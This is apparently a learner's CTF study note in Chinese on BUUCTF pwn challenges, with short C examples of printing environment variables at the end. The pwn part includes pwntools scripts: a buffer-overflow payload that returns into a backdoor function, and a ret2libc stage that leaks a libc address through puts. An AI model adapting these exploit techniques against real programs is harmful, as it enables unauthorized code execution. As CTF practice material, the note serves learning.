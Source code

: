 



### buu

pwn1_sctf_2016

查看保护

<img src="images/image-20220919122609823.png" alt="image-20220919122609823" style="zoom:50%;" />

<img src="images/image-20220919112733346.png" alt="image-20220919112733346" style="zoom:50%;" />



存在后门函数

![image-20220919112909061](images/image-20220919112909061.png)



不懂c++ 有空需要补一下了

std::string::string

I会替换成you,至于为什么,,,先留下个坑吧

输入为32字节,栈长度3C = 48+ 12 = 60 字节 所以需要10个i,然后



3C - 4 = 38

38  + eip + ebp 



#### 遇到的问题

pwntools sendafter接收不到...

```python
这个可以
from pwn import *
io = process("./pwn")
payload = b'I'*20 + b'a'*0x4 + p32(0x8048F0D)
io.sendline(payload) 
io.interactive()


这个不行
from pwn import *

context.log_level= "debug"
io = process("./pwn")

payload = b'i' * 10  + p32(0x08048F0D)

io.sendafter("yourself:",payload)
io.interactive()



```





Send 和sendline啥区别..





#### ciscn

![image-20220919145532291](images/image-20220919145532291.png)





ret2libc

为啥这个就可以

```python
##!/usr/bin/env python
from pwn import *
from LibcSearcher import LibcSearcher

sh = process('./ret2libc3')

context.terminal = ['tmux', 'splitw', '-h']
#gdb.attach(sh)
#pause()



ret2libc3 = ELF('./ret2libc3')

puts_plt = ret2libc3.plt['puts']
libc_start_main_got = ret2libc3.got['__libc_start_main']
main = ret2libc3.symbols['main']
#print(hex(puts_plt))
print("leak libc_start_main_got addr and return to main again")
payload = flat([b'A' * 112, puts_plt, main, libc_start_main_got])
sh.sendlineafter('Can you find it !?', payload)

print("get the related addr")
libc_start_main_addr = u32(sh.recv()[0:4])
print(hex(libc_start_main_addr))
```



还有就是为什么要用下面的puts来泄漏地址,上面的不行吗..



### 环境变量学习

来自《计算机安全导论:深度实践》

```c
输出所有环境变量,在c的main函数中用envp(只能在这用)
#include <stdio.h>
void main(int argc, char* argv[], char* envp[])
{
        int i =0 ;
        while (envp[i] != NULL)
        {
                printf("%s\n",envp[i++]);
        }
}

或者另一种方法,用全局变量environ(更推荐)
#include <stdio.h>

extern char** environ;
void main(int argc, char* argv[], char* envp[])
{
        int i =0 ;
        while (environ[i] != NULL)
        {
                printf("%s\n",environ[i++]);
        }
}
```









